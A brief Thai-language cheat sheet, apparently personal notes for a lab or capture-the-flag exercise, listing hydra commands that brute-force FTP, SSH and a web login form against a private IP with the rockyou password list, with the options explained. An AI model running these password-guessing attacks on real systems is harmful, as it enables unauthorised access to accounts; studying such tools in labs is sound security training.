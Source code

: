#web
- Bruteforce ได้ทุกอย่าง
- FTP : hydra -l `user` -P `passlist.txt` `ftp://10.10.15.171`
- SSH : hydra -l `molly` -P `rockyou.txt` `10.10.15.171` -t 4 ssh
- Website : hydra -l `molly` -P `rockyou.txt` `10.10.15.171` `http-post-form` "`/login`:`username=`^USER^&`password=`^PASS^:`F=incorrect`” -V
- /login = ตำแหน่งที่จะ bruteforce
- `username=`^USER^&`password=`^PASS^ = หาจาก bur psuit
- `F=incorrect` = ข้อความตอบกลับเวลารหัสผิด
- -l = username -P = password -t = กำหนดจำนวนเธรดที่จะสร้าง -V = แสดงรหัสที่ลองทั้งหมด